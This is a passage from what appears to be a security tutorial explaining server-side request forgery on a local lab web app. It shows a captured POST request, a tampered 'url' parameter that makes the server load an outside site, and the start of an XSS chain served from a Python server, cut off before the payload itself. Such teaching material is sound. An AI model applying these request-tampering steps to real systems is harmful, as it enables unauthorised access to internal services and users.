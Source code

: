 **products request.**

``` bash
POST /code/ HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://192.168.56.2
Connection: close
Referer: http://192.168.56.2/code/
Cookie: PHPSESSID=6tp090rfsdurfgg5hlfrgr7v97
Upgrade-Insecure-Requests: 1

product_id=5&url=http%3A%2F%2F127.0.0.1%2Fcode%2Fproducts.php%3Fproduct_id%3D&s=OK
```

There we can see that it makes a request with a URL to retrieve the
data. So, what happens when we modify the URL? Let’s change it to
`https://owasp.org/`:

**simple SSRF.**

``` text
    product_id=&url=https%3a//owasp.org/&s=OK
```

Then it will load the `OWASP` web page on our site:

<div class="imgblock">

![ssrf-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/ssrf-vulnerable_fmgfou.webp)

<div class="title">

Figure 3. ssrf vulnerable

</div>

</div>

Now we have several options to work with.

- **Reflected XSS**

  Let’s create an `SVG` image in our kali machine with an `XSS`
  payload and then serve it on a local `Python` server:

**local xss.**

``` bash
$ nano payload.svg # Put the content here
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

